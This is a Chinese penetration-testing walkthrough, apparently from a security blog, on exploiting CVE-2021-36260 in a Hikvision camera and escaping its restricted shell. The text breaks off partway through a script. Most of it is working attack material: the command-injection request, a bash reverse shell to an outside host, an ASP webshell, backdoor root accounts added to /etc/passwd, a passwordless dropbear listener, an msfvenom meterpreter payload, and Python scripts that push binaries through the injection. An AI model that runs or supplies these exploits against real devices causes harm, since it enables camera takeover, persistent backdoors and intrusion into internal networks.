# RCE 遇到受限 shell 的突破

# 目录

- - -

  

-   0x00 简介
    
-   0x01 CVE-2021-36260
    
-   0x02 建立稳定控制
    

-   1\. 远程下载
    
-   2\. 反弹 Shell
    
-   3\. Webshell
    
-   4\. SSH
    

-   0x03 突破受限的 shell
    

-   1\. SSH 传输文件
    
-   2\. SFTP/SCP/FTP
    
-   3\. Bash 反弹 shell
    
-   4\. 通过 Web 后台尝试上传
    
-   5\. 利用 SSH 隧道
    
-   6\. 通过 echo 写文件
    

-   0x04 利用下载器
    

-   1\. 编写下载器
    
-   2\. 尝试编译程序
    
-   3\. 寻找问题原因
    
-   4\. 再次尝试编译程序
    
-   5\. 尝试远程下载代理程序
    
-   6\. 尝试建立 socks5 代理
    
-   7\. 编译 frpc
    
-   8\. 建立代理
    
-   9\. 使用代理访问受限网络
    

-   0x05 Metasploit
    
-   0x06 登录 Web 后台
    

-   1\. 下载数据库并备份
    
-   2\. 修改数据库
    
-   3\. 上传并覆盖原有数据库
    
-   4\. 尝试登录
    
-   5\. 新建用户
    
-   6\. 再次修改数据库
    
-   7\. 权限测试
    
-   8\. 通用性延伸
    

-   0x07 浏览数据库
    
-   0x08 赠送设备说明
    
-   往期文章
    

  

## 0x00 简介

在一次服务项目中，涉及到对海康威视摄像头的攻击利用，要求获取摄像头的 `shell`，建立代理，之后做两件事

-   内网横向攻击
    
-   劫持视频流
    

由于环境中的海康威视的摄像头系统版本本身存在漏洞，所以正常来说应该不难，但找到了我们应该是遇到了什么问题，经过测试发现海康威视对设备的 `shell` 进行了定制，进行了各种功能阉割

接下来我们探索一下这种受限的 `shell` 如何突破

> 由于现场环境只提供了一小段时间，而且海康威视的系统似乎不是很容易用虚拟机进行搭建，为给大家提供最真实的体验，我特意买了一个海康威视的设备进行测试，型号 `DS-2CD2310-I`


## 0x01 CVE-2021-36260

> 漏洞公告
> 
> https://www.hikvision.com/cn/support/CybersecurityCenter/SecurityNotices/20210919/

> 漏洞分析文章
> 
> https://kms.app/archives/399/
> 
> http://f0und.icu/article/31.html

> PoC 地址
> 
> https://github.com/Cuerz/CVE-2021-36260
> 
> https://github.com/Aiminsun/CVE-2021-36260

简单来说就是系统通过 web 方式以 xml 格式传递标签，标签解析过程中没有做完善的安全验证，导致在后台命令拼接过程中造成了命令注入

`PoC` 数据包如下

```plain
PUT /SDK/webLanguage HTTP/1.1
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: x.x.x.x
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Language: en-US,en;q=0.9,sv;q=0.8
Content-Length: 71

<?xml version="1.0" encoding="UTF-8"?><language>$(ls -l>webLib/c)</language>
```

上面的命令将 `ls -al` 的执行结果写入到了当前目录下的 `webLib/c` 文件中，接下来直接访问根目录的 `/c` 就可以了


看分析文章中写过，也可以将 `$` 换成 `#`，实际测试一下（仅在我买的摄像头下测试），并不可行


URL 编码后


Railgun 工具中正好集成了这个漏洞，直接用工具执行，免得每次要发两次请求查看

> https://github.com/lz520520/railgun


## 0x02 建立稳定控制

正常来说到这里就很简单了，直接 `curl` 或 `wget` 一个控制程序就可以上线了

### 1\. 远程下载

`curl` 或者 `wget`


可以看到并没有 `payload.elf`


下载服务器这边也没有发现访问情况




还是没有访问

难道没有这两个命令吗？使用 `which` 和 `whereis` 查找一下，先拿 `pwd` 程序测试一下


命令执行并没有结果返回，这里有很多可能，例如系统中的 `pwd` 仅是 shell 内置命令，没有外部文件，这个可以参考之前的文章《LD\_PRELOAD 劫持 PWD 为什么失败了 | Linux 后门系列》

> https://mp.weixin.qq.com/s/InMQaKOwns2mEIp5yF8dDw

还有可能是 `whereis` 和 `which` 命令本身就不存在

这个验证起来简单，找一个在环境变量 `PATH` 中的，一定存在的程序进行查找，对比结果


可以看到我们还是 `root` 用户权限，`PATH` 结果如下

```plain
PATH=/sbin:/usr/sbin:/bin:/usr/bin
```


可以看到，此设备的 `shell` 环境是由 `busybox` 提供的，那我们就以 `busybox` 程序为例


看来没有这两个程序，这样查看命令和工具是否存在就只能通过环境变量 `PATH` 和 `busybox` 内置列表了


可以看到，文件下载相关的命令 `ftp`、`scp`、`rsync` 等并不支持

```plain
[, [[, ash, awk, bash, cat, chmod, cp, date, df, dmesg, du, echo, env, false, fdisk, free, fsync, gunzip, gzip, halt, hwclock, ifconfig, init, insmod, iostat, kill, linuxrc, ln, login, ls, lsmod, lzcat, lzma, mdev, mkdir, mkdosfs, mkfs.vfat, mknod, modprobe, mount, mpstat, mv, netstat, ping, ping6, poweroff, ps, pwd, reboot, rm, rmmod, route, sed, sh, sleep, stty, sync, tail, tar, test, top, touch, true, umount, unlzma, zcat
```

和外部网络搭边儿的也就是 `ping` 相关的命令

### 2\. 反弹 Shell

-   bash
    
-   nc、telnet
    
-   编程语言环境
    

```plain
bash -i >& /dev/tcp/192.168.1.125/4444 0>&1
```


难道是不出网？测试一下 `ping`

```plain
ping -t 1 192.168.1.125
```

失败，看来似乎是不支持

```plain
nc -nv 192.168.1.125 4444
```


失败，确实也是没看到 `nc` 或者 `netcat` 命令，去环境变量的执行路径里找一下

经过测试，命令执行环境对 `;` 和 `|` 支持不是很好，而且没有 `grep` ,只能 `ls -al` 取结果我们这边分析了



没有找到 `nc` 和 `netcat` 之类的，可执行文件中其实主要就是`/bin`下的 `busybox` 提供的命令以及 `da_info` 提供的，显然后面这个大概率是海康威视自己开发的，这些命令都和实际产品功能紧密相关


可以看到这是个动态链接的 ELF 文件，还是 ARM 架构的，还去除了符号信息

可以通过命令枚举或者 ELF 逆向分析查看这其中会不会有可以远程下载或者远程控制的方法，但这个 `da_info` 可能仅是海康的设备上的，不是通用的方法，我们不对这个进行深入研究，仅仅是通过执行该程序看看 `banner`




没有找到可以直接利用的

编程语言环境也没有发现

### 3\. Webshell


这本身是个 web 系统啊，还是 `asp` 的，啊？Linux 上的 `asp` 还真是少见，我直接写一个 `asp` 的木马进去不就完了吗？

先找到 web 路径，从漏洞利用 PoC 可以知道，`./webLib` 对应的应该就是根目录


直接访问 `index.asp` 和 `dispatch.asp` 会跳转到登录口 `/doc/page/login.asp` ，那就先找一下登录页面相关的路径吧，这样可能更容易访问一些，绝对路径如下

```plain
/home/webLib/doc/page
```


通过 echo 写入 Webshell

```plain
<%
Response.CharSet = "UTF-8" 
k="e45e329feb5d925b" '该密钥为连接密码 32 位 md5 值的前 16 位，默认连接密码 rebeyond
Session("k")=k
size=Request.TotalBytes
content=Request.BinaryRead(size)
For i=1 To size
result=result&Chr(ascb(midb(content,i,1)) Xor Asc(Mid(k,(i and 15)+1,1)))
Next
execute(result)
%>
```

这里用 Railgun 就不是很方便了，用 `Burpsuite` 吧





这里分两次写是因为这个漏洞可执行的命令长度有限制，而且还不太统一

访问 webshell


看起来似乎没有解析呀，冰蝎连接一下，有枣没枣打三竿



不出所料，连接不上

为什么会不解析呢？看一下其他的 `asp` 文件，难道有什么特殊的吗


好像没有什么 `asp` 的代码呀


看来这并不是什么 `asp`，而可能是一种自定义解析的格式

系统中没有 `lsof` ，所以用 `netstat` 看看到底是哪个程序起的 80 端口


可以看到，是由一个叫做 `davinci` 的程序，在网上也没有找到相关资料，好像是和一个剪辑软件重名了

于是尝试找到这个程序

```plain
ls -al /proc/331/exe
```


就在当前目录下，但是被删除了，根据《Linux 应急响应手册》小技巧 -> 0x08 数据恢复，尝试恢复该程序



`fd` 文件夹下有很多内容，但是并没有找到 `deleted` 标志的。注意！是能恢复的，详见下个版本应急手册。在 `maps` 文件中可以看到 `davinci` 在内存中的位置


如果想从内存中重建文件不是很容易，而且现在关键问题是也无法上传文件工具，能上传早就控制了

发文件的过程中发现以下文件

```plain
/home/davinci.lzma    // 压缩后的程序，lzma -d davinci.lzma 可以解压
/dav/davinci_bak
```

可以考虑对程序进行逆向分析，直接执行均未发现可利用的点

### 4\. SSH

上面首先是尝试了反向控制相关的远程下载、反弹 shell，也尝试了正向控制中的 Webshell，都没有成功，由于是测试环境，我是知道它是出网的，所以没有测试出网情况。

没有 `nc`、`telnet` 之类的工具，就只能使用现有的服务来监听端口了，`ssh` 服务是一个不错的选择，这也是 `PoC` 中利用的方式

海康威视的这个摄像头的 `ssh` 是通过 `dropbear` 起的，而不是 `OpenSSH`

> https://matt.ucc.asn.au/dropbear/dropbear.html

这导致之前启动 `OpenSSH` 的命令怎么都没效果


当前 ssh 似乎是没有开，但是从 `netstat` 的命令执行结果上看是开了


PoC 中使用 `dropbear -R -B -p 1337` 在 1337 端口设置监听，还新建了一个不需要密码的账户


这个摄像头的操作系统是通过 `/etc/passwd` 管理账户及密码的，我们既然是 `root` 权限，可以直接添加账户进去了

#### 1) 添加账户

```plain
echo "P::0:0:W:/:/bin/sh" >> /etc/passwd
```


这种涉及到重定向的操作就不要在 Railgun 中执行了，可能是因为要显示结果，所以默认就带了输出重定向，和我们的重定向互相冲突，用 Burpsuite 就好了


#### 2) 创建新的 SSH 监听

```plain
dropbear -R -B -p 1337
```

这条命令也在 `Burpsuite` 中执行，不知道为什么 Railgun 中执行会没有效果

-   `-R`：根据需要创建主机密钥
    
-   `-B`：允许空密码登录
    
-   `-p 1337`：该选项表示启动 Dropb
    


#### 3) SSH 连接测试


成功登录 SSH

喜欢使用 FinalShell 的朋友需要注意，FinalShell 目前还不支持没有密码的 SSH 连接

#### 4) 添加一个有密码的账户

不写公钥，写账户是因为写账户比较简单易操作，有密码和无密码其实差别就在于 `/etc/passwd` 的第二位


我们可以按照当前操作系统的规则生成一个密码，以创建 `user/userpass` 为例

```plain
$1$yi$edpzE7hM/R4nw3PnFuiVL/
```

admin 的 hash 含义是密码经过了 `md5` 加密并且盐 (salt) 值为 `yi`

在我们自己的 Ubuntu 上安装 `whois` ，并通过 `mkpasswd` 生成 `Hash`

```plain
sudo apt install whois
mkpasswd -m md5 --salt=SaltValue userpass
```

`mkpasswd` 要求盐值不少于 8 为，我们就以 `12345678` 作为盐值


```plain
$1$12345678$sEgioVKWacw6d9iYXc1P4/
```

拼接后完整如下

```plain
user:$1$12345678$sEgioVKWacw6d9iYXc1P4/:0:0:W:/:/bin/sh
```

直接通过 SSH，使用 `cat`将内容写入到 `/etc/passwd` ,千万记得要用追加写 `>>`,而且 `$` 需要转义 `\$`


这 ssh 还设置了一些安全策略，错误的密码登录后（例如通过 FinalShell 登录尝试），会导致 IP 封禁


使用 user/userpass 通过 FinalShell 登录


至此，已经成功获取了 ssh shell，上面的部分内容都是铺垫，接下来就是今天要详细探讨的内容

## 0x03 突破受限的 shell

目前虽然获取到了 SSH 的权限，但是无法上传文件，建立代理

### 1\. SSH 传输文件

```plain
cat payload.elf | ssh -v -p 1337 P@192.168.1.64 'cat > payload.elf'
```


很可惜，失败了

### 2\. SFTP/SCP/FTP

既然 FinalShell 都可以连接上了，是不是可以直接利用其传文件了


FinalShell 默认会使用 `SFTP` 或 `SCP` ，FinalShell 报错估计这几个协议肯定是都不行，但还是要测试一下

#### 1) SCP

```plain
scp -v -P 1337 payload.elf P@192.168.1.64:/home/payload.elf
```


失败，查询资料后发现默认 `Dropbear` 是不支持 `SCP` 的

#### 2) SFTP

```plain
sftp -P 1337 user@192.168.1.64
```


失败，查询资料后发现默认 `Dropbear` 不支持 `SFTP`

#### 3) FTP


并没有 21 等端口开放

### 3\. Bash 反弹 shell

之前失败了，由于之前显示不全，不知道失败的原因，现在可以重新试试


看来 busybox 把这个功能去掉了，包括 UDP

### 4\. 通过 Web 后台尝试上传

CVE-2021-36260 的作者 `Watchful_IP` 在漏洞描述过程中介绍了可以在获取 SSH shell 后通过禁用 web 认证的方式使用任意密码登录

> https://watchfulip.github.io/2021/09/18/Hikvision-IP-Camera-Unauthenticated-RCE.html

但是作者没有详细介绍如何实现的，下面是 Github 上安全研究人员关于这件事的讨论，简单来说就是修改其中的数据库，添加一个账户，之后重启，但是对我们来说目前还无法上传工具呢，更别说修改 Sqlite 数据库了

> https://github.com/jorhelp/Ingram/discussions/9

### 5\. 利用 SSH 隧道

既然 SSH 已经建立好了，可以直接利用其隧道功能，进而对内网进行攻击呀

这里就不用命令行了，有一个工具可以很直观的配置隧道 —— `MobaXterm`

> https://mobaxterm.mobatek.net/


这就很直观了，我们选择动态端口转发，按照提示填写本地代理监听端口以及作为中转的 SSH 服务器信息


点击开始按钮


通过 `Proxifier` 配置代理，测试是否成功

> https://www.proxifier.com/


这里将 `127.0.0.1` 这种本地流量都走代理，浏览器访问 `127.0.0.1`


代理成功，但是这还不是很明显，建立代理的这台 Windows 网段为 `192.168.31.x` ，我们在 192.168.1.x 段找一台服务器，禁止来自 192.168.31.x 以及路由 192.168.1.97 的连接，这样就可以测试代理是否成功

模拟隔离主机：192.168.1.126

规则如下：

-   允许 192.168.1.0/24 访问 80
    
-   禁止 192.168.1.97（路由器）访问 80
    
-   禁止 192.168.31.0/24 (攻击机) 访问 80
    
-   禁止 192.168.1.125 (VPS) 访问 80
    

安装 apache2

```plain
sudo apt install apache2
```


攻击机关闭代理后可以直接访问其 80 端口

添加防火墙

通过自带的 `ufw` 来完成

```plain
# 启用防火墙
sudo ufw enable

# 添加拒绝访问 192.168.1.97 的规则
sudo ufw deny from 192.168.1.97

# 添加拒绝访问 192.168.31.0/24 网络的规则
sudo ufw deny from 192.168.31.0/24

# 添加拒绝访问 192.168.1.125 的规则
sudo ufw deny from 192.168.1.125

# 添加允许访问 80 端口的规则
sudo ufw allow from 192.168.1.0/24 to any port 80
```


攻击机关闭代理后访问 80 端口



使用海康威视摄像头作为代理，再次访问




成功建立了一条通向内网的代理

### 6\. 通过 echo 写文件

一般到上一步代理搭建完成，就继续进行横向渗透了，但是并不是所有的 RCE 都能有机会建立 `ssh` 隧道，我们要找到一条更加通用的方法，最通用的方法应该就是 `echo` 写文件了

如果是文本文件，我们直接通过 `cat` 就可以写进去，但是二进制可执行文件用 `cat` 就不是很好写了，上面我们也尝试了通过管道 + `cat` ，也失败了

如果想将一个二进制可执行文件写入这个过程用 `PoC` 来完成，需要让二进制可执行文件以可读字符的形式进行编码，对于常规系统，经常将二进制可执行文件进行 base64 编码，之后传递，但是在受限的 shell 中，并没有提供 base64 解码工具，所以这次得用 16 进制格式进行编码，编码后的内容通过 `echo -n -e` 写入到文件中

-   \-n 禁止添加换行符
    
-   \-e 启用转义字符的解析
    

这两个选项有效地将 16 进制表示的二进制可执行文件一点一点写入到文件中

所以这里涉及两个步骤

1.  将二进制可执行文件转化为 `\x00` 这种格式
    
2.  循环将文件一点一点写进去
    

这里直接用一个 `Python` 脚本来完成

```plain
import requests
import sys
import urllib.parse

def read_string(string, chunk_size=2000):
    start = 0
    while start < len(string):
        end = start + chunk_size
        chunk = string[start:end]
        yield chunk
        start = end

# 构建请求头部
headers = {
    'User-Agent': 'python-requests/2.22.0',
    'Accept-Encoding': 'gzip, deflate',
    'Accept': '*/*',
    'Connection': 'close',
    'X-Requested-With': 'XMLHttpRequest',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Accept-Language': 'en-US,en;q=0.9,sv;q=0.8',
}

def sendPayload(target, poc_data):
    # 设置要发送的数据
    data = '<?xml version="1.0" encoding="UTF-8"?><language>$(echo -n -e "' + poc_data + '" >> webLib/payload.elf)</language>'
    url = urllib.parse.urljoin(target, 'SDK/webLanguage')

    # 发送请求
    response = requests.put(url, headers=headers, data=data)
    
    # 检查响应状态码等，确保请求成功
    if response.status_code == 500:
        return True
    return False

if len(sys.argv) < 3:
    print("Usage: python script.py <target_address> <file_path>")
    sys.exit(1)

target = sys.argv[1]
file_path = sys.argv[2]

with open(file_path, 'rb') as file:
    elf_data = file.read()

hex_string = ''.join(['\\x{:02x}'.format(byte) for byte in elf_data])

hex_string_len = len(hex_string)
print(hex_string_len)

# 动态设置 Host 字段
headers['Host'] = urllib.parse.urlparse(target).netloc

i = 0
for chunk in read_string(hex_string, chunk_size=120):
    result = sendPayload(target, chunk)
    if not result:
        print('send again')
        result = sendPayload(target, chunk)
    if result:
        print(str(i) + '/' + str(hex_string_len))
        i += 120
    else:
        print('Request failed.')
        sys.exit(1)

print('Over')
```

#### 1) 生成 Payload 文件

直接使用 `MSF`  进行生成，我们需要知道 CPU 架构、32 还是 64 位处理器、大端还是小端

类似 `arch`、`lscpu` 这些命令在当前环境中都没有，可以通过下面的命令进行查看

```plain
cat /proc/cpuinfo
```


可以看到 CPU 为 `ARM926EJ-S rev 5 (v5l)` ，经过查询是一款 ARM 架构，32 位的 CPU

大小端这个事我们可以从服务器上下载几个可执行文件，看看它们是大端还是小端的

以 `/bin/da_info` 和 `/bin/busybox` 为例


通过 `Ghidra` 进行分析

> https://github.com/NationalSecurityAgency/ghidra

直接将文件拖进 `Ghidra` 就可以了，此步骤建议在虚拟机中进行


可以看到，显示的都是 `LE` ，小端

接下来通过 `msfvenom` 生成 payload

```plain
msfvenom -p linux/armle/meterpreter/reverse_tcp -a armle RHOST=192.168.1.125 RPORT=443 --platform linux -f elf -o payload.elf
```

只有 344 个字节大小

#### 2) 通过 echo 写入到服务器

通过之前的部分我们可以知道，攻击数据包是有大小限制的，具体限制是多少还不是固定的，每种设备不一样

我们可以通过下面的脚本进行粗略测试

```plain
import requests
import sys
import urllib.parse

# 构建请求头部
headers = {
    'User-Agent': 'python-requests/2.22.0',
    'Accept-Encoding': 'gzip, deflate',
    'Accept': '*/*',
    'Connection': 'close',
    'X-Requested-With': 'XMLHttpRequest',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Accept-Language': 'en-US,en;q=0.9,sv;q=0.8',
}

def sendPayload(target, poc_data):
    # 设置要发送的数据
    data = '<?xml version="1.0" encoding="UTF-8"?><language>$(echo -n -e "' + poc_data + '" > webLib/payload.txt)</language>'
    url = urllib.parse.urljoin(target, 'SDK/webLanguage')

    # 发送请求
    response = requests.put(url, headers=headers, data=data)
    
    # 检查响应状态码等，确保请求成功
    if response.status_code == 500:
        return True
    return False


def getPayloadLength(target):
    url = urllib.parse.urljoin(target, 'payload.txt')
    response = requests.get(url, headers=headers)
    p_length = len(response.text)
    return p_length


def testPayloadLength(target):
    # 动态设置 Host 字段
    headers['Host'] = urllib.parse.urlparse(target).netloc

    # 测试数据包长度限制
    length = 4
    while True:
        chunk = 'A' * length
        result = sendPayload(target, chunk)
        p_length = getPayloadLength(target)

        if result and length > p_length:
            print(f"Payload length: {length - 4}")
            break
        length += 4

if len(sys.argv) < 2:
    print("Usage: python script.py <target_address>")
    sys.exit(1)

target = sys.argv[1]

testPayloadLength(target)
```


如果你自己修改了脚本，建议这个数字再小一点，减少 4 的整数倍，这里就以 180 为例，修改 echo 写入脚本

```plain
import requests
import sys
import urllib.parse

def read_string(string, chunk_size=100):
    start = 0
    while start < len(string):
        end = start + chunk_size
        chunk = string[start:end]
        yield chunk
        start = end

# 构建请求头部
headers = {
    'User-Agent': 'python-requests/2.22.0',
    'Accept-Encoding': 'gzip, deflate',
    'Accept': '*/*',
    'Connection': 'close',
    'X-Requested-With': 'XMLHttpRequest',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Accept-Language': 'en-US,en;q=0.9,sv;q=0.8',
}

def sendPayload(target, poc_data):
    # 设置要发送的数据
    data = '<?xml version="1.0" encoding="UTF-8"?><language>$(echo -n -e "' + poc_data + '" >> webLib/payload.elf)</language>'
    url = urllib.parse.urljoin(target, 'SDK/webLanguage')

    # 发送请求
    response = requests.put(url, headers=headers, data=data)
    
    # 检查响应状态码等，确保请求成功
    if response.status_code == 500:
        return True
    return False

if len(sys.argv) < 3:
    print("Usage: python script.py <target_address> <file_path>")
    sys.exit(1)

target = sys.argv[1]
